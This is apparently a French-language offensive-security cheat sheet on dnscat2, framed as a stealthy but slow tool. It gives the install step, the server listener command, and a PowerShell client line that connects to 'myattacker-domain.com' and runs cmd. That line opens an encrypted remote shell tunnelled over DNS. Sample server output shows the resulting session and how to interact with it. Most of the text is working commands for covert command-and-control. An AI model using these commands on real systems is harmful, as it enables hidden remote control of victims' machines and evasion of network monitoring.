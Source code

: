 ```yaml
---
public: true # set to true to make the article publishable
---
```

Cet outil offre de la furtivité mais cela au détriment des performances. Il faudra l'utiliser uniquement lorsque la discrétion est une priorité

## Installation

```
sudo apt install dnscat2
```

## Utilisation

### Serveur

```
# lance le listener et affiche la ligne de commande à lancer sur la cible
sudo dnscat2-server --dns domain=blabla.fr
[...]
./dnscat --secret=9daeec39519fcba5c8a62a8b157f5e1e blabla.fr
```

### Client

#### Powershell

```
git clone https://github.com/lukebaggett/dnscat2-powershell.git

Import-Module .\dnscat2.ps1
Start-Dnscat2 -DNSserver 1.2.3.4 -Domain myattacker-domain.com -PreSharedSecret xxxxxxxxxxxxxxxxxxxxxxxx -Exec cmd 
```

```
# Sur le serveur, apres que le client se soit connecté :
window
0 :: main [active]
  crypto-debug :: Debug window for crypto stuff [*]
  dns1 :: DNS Driver running on 0.0.0.0:53 domains = blabla.fr [*]
  1 :: (not set) [cleartext] [idle for 446 seconds]
  2 :: exec (MYHOST) [encrypted and verified] [*]     <====== NOTRE SESSION

# interaction
window -i 2

## ATTENTION : lorsque l'on saisie une commande, cela met beaucoup de temps à retourner une réponse !!

```